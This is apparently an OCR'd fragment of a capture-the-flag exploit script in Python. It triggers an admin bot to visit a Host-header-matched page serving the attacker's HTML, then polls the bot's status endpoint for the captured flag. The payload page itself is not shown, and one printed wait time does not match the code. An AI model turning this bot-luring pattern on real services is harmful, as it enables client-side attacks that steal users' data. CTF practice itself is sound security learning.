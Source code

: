 ```python
    except Exception as e:
        print(f"[-] Update failed: {str(e)}")
        return

    # Wait a bit for the update to take effect
    time.sleep(2)
    
    # The key insight: We need to make the bot visit the ACTUAL correct origin
    # Since the server serves our custom HTML when the Host header matches FLAG_HOST,
    # the bot will load our exploit page when visiting the correct URL
    bot_url = f"http://{FLAG_HOST}:{PORT}/"
    
    print(f"[*] Step 2: Triggering bot with correct origin URL: {bot_url}")
    try:
        response = requests.post(
            f"{TARGET}/bot",
            data={"url": bot_url},
            verify=False
        )
        print(f"[+] Bot trigger response: {response.text}")
    except Exception as e:
        print(f"[-] Bot trigger failed: {str(e)}")
        return
    
    print("[*] Step 3: Waiting for bot execution (20 seconds)...")
    # The bot waits 15 seconds, plus some buffer time
    time.sleep(50)
    
    print("[*] Step 4: Checking bot status for flag...")
    max_attempts = 5
    for attempt in range(max_attempts):
        try:
            response = requests.get(
                f"{TARGET}/bot/status",
                verify=False
            )
            
            # Handle both JSON and plain text responses
            try:
                data = response.json()
                if isinstance(data, str) and ("flag" in data.lower() or ".;,;." in data):
                    print(f"\n[+] FLAG CAPTURED: {data}")
                    return
                else:
                    print(f"[*] Attempt {attempt + 1}/{max_attempts} - Status: {data}")
            except ValueError:
                # If not JSON, treat as plain text
                if "flag" in response.text.lower() or ".;,;." in response.text:
                    print(f"\n[+] FLAG CAPTURED: {response.text}")
                    return
                else:
                    print(f"[*] Attempt {attempt + 1}/{max_attempts} - Raw response: {response.text}")
            
            if attempt < max_attempts - 1:
                time.sleep(5)  # Wait before next attempt
                
        except Exception as e:
            print(f"[-] Status check failed: {str(e)}")
if __name__ == "__main__":
    exploit()

```